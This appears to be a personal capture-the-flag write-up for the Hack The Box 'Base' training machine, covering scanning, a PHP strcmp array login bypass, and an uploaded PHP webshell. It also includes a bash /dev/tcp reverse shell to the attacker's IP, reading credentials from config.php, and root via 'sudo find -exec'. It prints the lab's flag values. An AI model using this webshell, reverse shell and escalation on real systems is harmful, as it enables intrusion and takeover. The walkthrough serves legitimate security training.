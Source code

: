 ```yaml
---
title: "HTB Base"
date: 2023-05-30T16:32:14-07:00
draft: false
---
```


# Base by HTB - Starting Point 2 

IP=10.129.95.184
MyIP=10.10.15.79

## nmap 

### nmap -sCV -oN nmap-CV.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f65c9b38eca75c791c1f181c5246f70b (RSA)
|   256 650cf7db42034607f21289fe11202c53 (ECDSA)
|_  256 b865cd3f34d8026ae318233e77dd8740 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Welcome to Base
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
---

### nmap -p- -T5 $IP
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


from login dir 

<?php
session_start();
if (!empty($_POST['username']) && !empty($_POST['password'])) {
    require('config.php');
    if (strcmp($username, $_POST['username']) == 0) {
        if (strcmp($password, $_POST['password']) == 0) {
            $_SESSION['user_id'] = 1;
            header("Location: /upload.php");
        } else {
            print("<script>alert('Wrong Username or Password')</script>");
        }
    } else {
        print("<script>alert('Wrong Username or Password')</script>");
    }


intercept the login and chang

username=admin&password=admin
to
username[]=admin&password[]=admin

and we are logedin

make file to test upload

echo "<?php phpinfo(), ?>" > test.php

*note to self*: when uploading file don't forget to turn off the poxy or at lest see if it can be fowrded 

## Gobuster 
gobuster dir --url http://$IP/ --wordlist /usr/share/wordlists/dirb/big.txt 
2023/05/30 15:55:37 Starting gobuster in directory enumeration mode

/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_uploaded            (Status: 301) [Size: 318] [--> http://10.129.95.184/_uploaded/]
/assets               (Status: 301) [Size: 315] [--> http://10.129.95.184/assets/]   
/forms                (Status: 301) [Size: 314] [--> http://10.129.95.184/forms/]    
/login                (Status: 301) [Size: 314] [--> http://10.129.95.184/login/]    
/server-status        (Status: 403) [Size: 278]                                      
2023/05/30 15:58:22 Finished
---

## To login

uplad file that has 
 `<?php echo system($_REQUEST['cmd']);?>`
 in file called webshell.php or other
 
 then go to /_uploaded and open the file in the broser and you should get a ?cmd=
 in the url I had to type it in but it worked once i did 
 then using burp intercept, change the request type to POST from GET then send to reptert and url encode /bin/bash -c 'bash -i >& /dev/tcp/&MyIP/PORT 0>&1'
 %2f%62%69%6e%2f%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%30%2e%31%30%2e%31%35%2e%37%39%2f%35%35%35%35%20%30%3e%26%31%27
--- 

 then set up your lisaner on the PORT 
 then you will get a rshell
 
 www-data@base:/var/www/html/_uploaded$ cat /var/www/html/login/config.php
cat /var/www/html/login/config.php
<?php
$username = "admin";
$password = "thisisagoodpassword";

ls /home
john

cant su 
so ssh john


##### user.txt
john@base:~$ cat user.txt 
f54846c258f3b4612f78a819573d158e

### Privilege Escalation
john@base:~$ sudo -l
[sudo] password for john: 
Matching Defaults entries for john on base:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on base:
    (root : root) /usr/bin/find

john@base:~$ sudo find . -exec /bin/sh \; -quit
\# whoami
root

found at [GTFOBins](https://gtfobins.github.io/gtfobins/find/)

# cat /root/root.txt
51709519ea18ab37dd6fc58096bea949

this is part of HTB startingpoint tire 2 
thank you 
